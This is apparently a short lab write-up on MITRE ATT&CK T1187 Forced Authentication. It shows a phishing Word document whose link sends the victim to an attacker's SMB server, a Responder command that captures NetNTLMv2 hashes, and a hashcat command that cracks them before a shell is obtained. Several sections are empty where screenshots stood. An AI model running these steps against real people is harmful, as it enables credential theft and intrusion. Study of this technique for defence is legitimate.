

# T1187: Forced Authentication

## Execution

Attacker creates a fake MS Word document that has a hyperlink to attackers server where a `responder` is listening on port 445 and will be capturing the victim's `NetNTLMv2` hash if they click the dodgy link in the below document:





Attacker starts a responder so he can receive incoming SMB authentication request in order to capture the victim's hashes:



```csharp
responder -I eth1
```



Attacker sends the malicious document to the unsuspectim victim and convinces them to click the link. Once they click the link in the document, `responder` on the attacker's system captures victim's hash:


Once attacker got the hash, he can try and crack it using hashcat:

```csharp
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

Success, the password is cracked:


Using the cracked passsword to get a shell on the victim system:


## Observations



